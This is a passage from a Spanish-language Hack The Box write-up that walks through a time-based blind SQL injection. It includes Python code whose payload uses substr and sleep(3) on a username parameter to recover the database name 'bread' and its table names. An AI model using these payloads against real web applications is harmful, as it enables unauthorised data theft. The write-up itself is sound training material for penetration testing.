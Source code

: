 ```py
p2.success(result)
```

> [extract_db_name.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/breadcrumbs/process_SQLi/extract_db_name.py)

![316bash_scriptSQLi_dbname](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_dbname.png)

*No sé por qué toma los `+` como caracteres válidos, pero bueno, obtenemos el nombre de la base de datos: `bread`*.

...

##### Obtenemos tablas de la base de datos <ins>bread</ins>.

👀

```py
...
# Para ir iterando entre las tablas, en este caso iterar en 5 tablas (asi evitamos errores)
for table_num in range(0, 5):
    p4 = log.progress("Table name")
    for position in range(1, 16):
        for letter in dic_letters:
            time_now = time.time()

            payload = "?method=select&"
            payload += "username=administrator' and if(substr((SELECT table_name FROM information_schema.tables WHERE table_schema='bread' LIMIT %d,1),%d,1)='%s',sleep(3),1) and '1'='1&" % (table_num, position, letter)
            payload += "table=passwords"
...
```

> [extract_tables.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/breadcrumbs/process_SQLi/extract_table_names.py)

![316bash_scriptSQLi_tables](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316bash_scriptSQLi_tables.png)
